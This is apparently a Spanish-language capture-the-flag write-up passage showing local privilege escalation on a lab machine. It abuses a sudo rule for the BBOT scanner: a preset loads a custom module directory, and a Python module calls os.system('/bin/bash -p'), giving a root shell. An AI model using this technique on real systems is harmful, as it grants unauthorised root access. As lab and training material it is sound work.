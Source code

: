 **preset.yml:**
```
# load BBOT modules from these additional paths
module_dirs:
  - /home/graphasm/CustomModules
```

Creamos un module dentro del path indicado en el preset; se hace en python importando las librerias de bbot


**module.py:**
```python
from bbot.modules.base import BaseModule
import os

class vaina(BaseModule):
        os.system("/bin/bash -p")

```

Ahora solo queda ejecutar el binario indicando el preset y el modulo a cargar
```bash
graphasm@cypher:~$ sudo /usr/local/bin/bbot -p ./preset.yml -m module
```
![[Pasted image 20250306172750.png]]

[^1]: 
